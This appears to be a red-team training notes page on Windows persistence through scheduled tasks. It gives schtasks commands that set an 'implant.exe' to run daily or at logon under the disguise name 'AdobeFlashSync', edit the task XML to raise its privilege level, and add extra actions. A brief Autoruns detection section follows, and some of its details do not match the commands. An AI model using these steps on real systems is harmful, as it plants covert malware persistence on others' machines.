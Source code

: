# Scheduled Tasks

#### Scheduled tasks have been abused by ransomware for a long time and is another commonly used and simple persistence technique. Adversaries can create scheduled tasks that run at a specific time and day and execute arbitrary payloads.

run the following command to generate a new task called MyTask that is scheduled to run daily at 9:00am that will execute the empire.exe binary located in the C:\ root folder.

#### <mark style="color:green;">as a regular USER:</mark>

```
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "mytasks\go" /fo:list /v
schtasks /run /tn "mytasks\go"
```

#### <mark style="color:green;">as a LOCAL ADMIN:</mark>

```
schtasks /create /sc onlogon /tn AdobeFlashSync /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "AdobeFlashSync" /fo list

# take the configurations from an xml file

# export the task config 
schtasks /query /tn AdobeFlashSync /xml > c:\RTO\PERS\tsk.xml

#under <principal> section add this tag:
<RunLevel>HighestAvailable</RunLevel>
 
# then remove the task and make a new one with the modified configuration
schtasks /delete /f /tn AdobeFlashSync
schtasks /create /tn AdobeFlashSync /xml c:\RTO\PERS\tsk.xml

# now the privilege level is local admin
```

## <mark style="color:red;">Multi-action Tasks</mark>

By modifying the task configuration file, we can add additional actions to the scheduled task under `<Actions>` section.

for example we can execute a binary file by adding :

```
<Exec>
    <Command>c:\users\rto\desktop\implant.exe</Command>
</Exec>
```

## <mark style="color:red;">Detection</mark>

Microsoft has a Windows internals utility called Autoruns that shows you what programs are configured to run during system bootup or login. On the victim machine run the Autoruns64.exe as administrator.

Going to the Logon tab we can see the Run registry key that was added pointing to the empire.exe binary as well as the empire.exe binary that was dropped to the Startup folder.

![](<../../../.gitbook/assets/image (42).png>)

Under the Scheduled Task tab I can see the MyTask that points to the empire.exe saved in the root C:\\

![](<../../../.gitbook/assets/image (34) (1).png>)
